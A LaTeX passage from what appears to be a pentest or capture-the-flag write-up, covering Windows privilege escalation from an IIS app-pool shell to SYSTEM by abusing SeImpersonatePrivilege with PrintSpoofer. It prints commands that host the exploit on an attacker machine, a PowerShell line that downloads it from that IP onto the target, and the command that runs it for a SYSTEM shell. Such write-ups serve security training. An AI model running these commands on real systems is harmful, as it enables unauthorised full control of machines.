	
\includegraphics[width=1\textwidth]{img/shell.png}
\end{center}
\section{Privilege Escalation}
The shell which I got is from the user
\emph{\textbf{"iis apppool$\backslash$defaultapppool"}}.
The goal is to get the \textbf{NT AUTHORITY$\backslash$SYSTEM}
which is the user with the highest permissions on a 
windows machine.
The current user has \emph{\textbf{"SeImpersonatePrivilege"}}
token enabled also known as the "Impersonate a client after authentication"
privilege, is a security privilege in the Windows
operating system. Impersonation enables
a process to temporarily assume the identity and permissions
of a different user, allowing it to perform actions on behalf
of that user.
\begin{center}
	
\includegraphics[width=1\textwidth]{img/priv.png}
\end{center}
\par
So, I used a script[\href{https://github.com/itm4n/PrintSpoofer/releases}{\textcolor{blue}{here}}]
 that will use this token to escalate the current shell to
NT AUTHORITY$\backslash$SYSTEM.
I downloaded the "PrintSpoofer64.exe" from[\ref{priv_tool}] and transfered
it to windows shell through python http server.\\
\underline{On Kali:}
\begin{lstlisting}[language=bash]
  $wget 'https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe' -q -O exploit.exe
  $python3 -m http.server
\end{lstlisting}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/server.png}
\end{center}
\underline{On Windows:}
\begin{lstlisting}
  $powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.2.227:8000/exploit.exe','exploit.exe')"
  $exploit.exe -i -c powershell
\end{lstlisting}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/transfer.png}
\end{center}
\begin{center}
	
\includegraphics[width=1\textwidth]{img/root.png}
\end{center}
The script successfully ran and gave me the administrator level
shell on the system. Now we can get the files needed for the
PoC of this pentest.
